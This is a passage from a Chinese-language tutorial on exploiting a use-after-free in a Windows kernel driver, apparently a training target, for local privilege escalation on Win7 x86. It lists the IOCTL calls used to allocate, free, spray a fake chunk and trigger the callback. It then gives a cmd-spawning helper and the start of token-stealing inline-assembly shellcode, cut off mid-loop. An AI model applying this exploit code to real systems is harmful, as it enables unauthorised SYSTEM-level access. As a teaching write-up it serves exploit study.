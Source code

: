 3. 模仿漏洞指针的结构定义构造fake chunk payload大量申请空间，目的是覆盖到漏洞指针的Callback函数（专业术语：**堆喷射**）

4. 当Callback函数被调用的时候，我们在R3提权成功

#### ****如果读者对此篇文章感兴趣但没有内核调试相关经验，请移步0x5***

### 0x2 一点点API

1. 申请内存

  ```c
  DeviceIoControl(hDevice, 0x222013, NULL, NULL, NULL, 0, &recvBuf, NULL);
  ```

2. 释放内存

```c
DeviceIoControl(hDevice, 0x22201B, NULL, NULL, NULL, 0, &recvBuf, NULL);
```

3. 申请假chunk

```c
DeviceIoControl(hDevice, 0x22201F, fakeG_UseAfterFree, 0x60, NULL, 0, &recvBuf, NULL);
```

4. 调用Callback函数

```c
DeviceIoControl(hDevice, 0x222017, NULL, NULL, NULL, 0, &recvBuf, NULL);
```

以上函数都是通过逆向分析驱动文件得出，姑且先将底层实现当作黑盒看待，这样效率最高。

5. 最后调用一个CMD窗口，验证提权结果

```c
static VOID CreateCmd()
{
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOW;
	WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
	BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
	if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}
```

6. 提权shellcode

```c
void ShellCode()
{
	_asm
	{
		nop
		pushad
		mov eax, fs: [124h]		// 找到当前线程的_KTHREAD结构，R0中fs寄存器指向的是KCPR结构，紧接									 着就是KPCRB结构，所以偏移124h的位置为KPCRB的第四个字节
		mov eax, [eax + 0x50]   // 找到_EPROCESS结构
		mov ecx, eax
		mov edx, 4				// 在win7 x86 sp1 下 system进程的PID为4

		// 循环是为了获取system的_EPROCESS
		find_sys_pid :
		mov eax, [eax + 0xb8]	// 找到进程活动链表
		sub eax, 0xb8    		// 链表遍历
		cmp[eax + 0xb4], edx    // 根据PID判断是否为SYSTEM
		jnz find_sys_pid

```
